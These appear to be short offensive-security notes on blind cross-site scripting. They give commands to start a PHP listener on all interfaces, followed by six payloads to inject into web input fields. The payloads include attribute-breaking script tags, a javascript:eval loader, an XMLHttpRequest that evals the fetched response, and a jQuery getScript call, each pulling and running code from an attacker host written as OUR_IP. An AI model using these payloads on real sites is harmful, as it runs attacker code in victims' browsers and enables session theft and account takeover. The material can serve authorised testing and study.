 make php server

```CLI
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:PORT
```

Send a blindpayload to see if we get a hit in our php server, change the dir to the field inputing. Try payloads until something hits

```js
<script src=http://OUR_IP></script>
```

```js
'><script src=http://OUR_IP></script>
```

```js
"><script src=http://OUR_IP></script>
```

```js
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
```

```js
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
```

```js
<script>$.getScript("http://OUR_IP")</script>
```